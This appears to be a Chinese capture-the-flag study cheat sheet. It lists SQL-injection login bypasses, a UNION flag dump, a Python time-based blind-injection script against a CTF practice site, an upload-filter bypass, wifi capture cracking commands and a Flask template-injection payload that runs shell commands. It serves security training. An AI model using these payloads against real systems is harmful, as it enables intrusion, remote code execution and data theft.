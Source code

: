 # 学习基本思路

    * 第一阶段，拿到题目要能看懂
    * 第二阶段，分析出题目逻辑

    * 做了一个月题啥也不会也是正常的...

    * 学习曲线坑爹，怎么开始不重要，但是一定要坚持下来

    * 保持练习强度，量变引起质变，瓶颈期，不存在的
    * 新手过招，靠的是技巧,高手过招，靠的是技术

# WEB

.index.php.swp 文件可能隐藏源代码
16进制编码可以绕过注入

## sql绕过，万能密码

假设sql语句如下：
select * from user where username='用户名' and password='密码'

---

### 数据类型

sql里面弱类型的比较，以下情况都会为true：

- 1='1'
- 1='1.0'
- 1='1后接字母(再后面有数字也可以)'
- 0='除了非0数字开头的字符串'
    uname=admin
    &passwd=admin'||'1'='1

### 双等号

username=p'='&password=p'='
### 特殊截断符号“%00

username=a'+0;%00&password=

## 回显注入

?name=admin' and 1=2 union select 1,2,group_concat(flag) from flag--+

## 延时注入

import requests

import string

s=requests.session()

url="http://ctf5.shiyanbar.com/web/wonderkun/index.php"

flag=''

guess=string.lowercase+string.uppercase+string.digits

for i in range(33):

for st in guess:

headers={"x-forwarded-for":"1'+"+"(select case when(substr((select flag from flag) from %d for 1)='%s') then sleep(5) else 1 end) and '1'='1" %(i,st)}

try:

res=s.get(url,headers=headers,timeout=4)

except requests.exceptions.ReadTimeout:

flag+=st

print "flag:",flag

break

print "result:"+flag

## 图片上传

upload success, but not php!
multipart/form-data变换一下大小写，再把第二个Content-Type改成图片类

## kindeditor4.1.7

泄漏路径问题，漏洞根源位于/php/file_manager_json.php。

#杂碎

培根密码,当铺密码解密，JS/VBS/ASP加密解密  
cap无线密码破解-aircrack-win  
cap包无线解密，airdecap-ng -e SSID -p PASSWORD
MP3Stego Decode.exe -X -P PASSWORD
rz sz命令

## string 命令提取字符串，tr去除换行

strings qweqwe.pcapng | grep '^[a-z0-9]\{14\}$' | tr -d '\n' > test.txt  

## 工具

cheat engine
## 隐写

outguess -r 图片名 文件名

## flask ssti

{% for c in [].__class__.__base__.__subclasses__() %} {% if c.__name__ == 'catch_warnings' %} {% for b in c.__init__.func_globals.values() %} {% if b.__class__ == {}.__class__ %} {% if 'eval' in b.keys() %} {{ b['eval']('__import__("os").popen("ls").read()') }} {% endif %} {% endif %} {% endfor %} {% endif %} {% endfor %} 
